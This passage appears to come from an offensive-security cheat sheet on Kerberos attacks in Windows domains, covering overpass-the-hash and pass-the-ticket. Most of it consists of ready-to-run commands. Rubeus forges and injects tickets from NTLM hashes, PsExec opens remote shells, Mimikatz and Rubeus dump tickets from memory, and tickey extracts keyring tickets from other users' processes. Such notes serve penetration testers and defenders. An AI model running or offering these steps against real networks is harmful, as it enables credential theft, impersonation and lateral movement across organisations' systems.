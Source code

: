 #### Windows (internal) <a href="#windows-internal-3" id="windows-internal-3"></a>

With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```powershell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### Pass The Ticket (PTT) <a href="#pass-the-ticket-ptt" id="pass-the-ticket-ptt"></a>

> MiTM, lsass with mimi

#### Linux (external) <a href="#linux-external-4" id="linux-external-4"></a>

Check type and location of tickets:

```powershell
grep default_ccache_name /etc/krb5.conf
```

If none return, default is FILE:/tmp/krb5cc\_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being _KEYRING_ tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```powershell
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

#### Windows (internal) <a href="#windows-internal-4" id="windows-internal-4"></a>

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```powershell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:

```powershell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```
